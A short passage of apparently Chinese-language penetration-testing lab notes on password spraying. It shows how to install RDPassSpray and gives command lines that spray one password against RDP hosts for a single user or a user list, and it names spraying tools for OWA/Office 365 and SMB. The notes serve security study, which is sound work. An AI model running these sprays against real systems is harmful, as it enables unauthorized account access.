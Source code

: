         Bash
        
        ```
        # 安装 RDPassSpray (参考其 GitHub 仓库)
        # git clone https://github.com/securestate/RDPassSpray.git
        # cd RDPassSpray
        # python3 -m pip install -r requirements.txt
        
        # 喷洒单个用户 (-u) 或 用户列表 (-U)
        python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026 # -t 指定目标主机:端口
        python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt # -d 域, -T 目标主机列表
        ```
        
    - **OWA / Office 365**: `SprayingToolkit`, `MailSniper` 等。
    - **SMB**: `Metasploit` 的 `auxiliary/scanner/smb/smb_login` 模块等。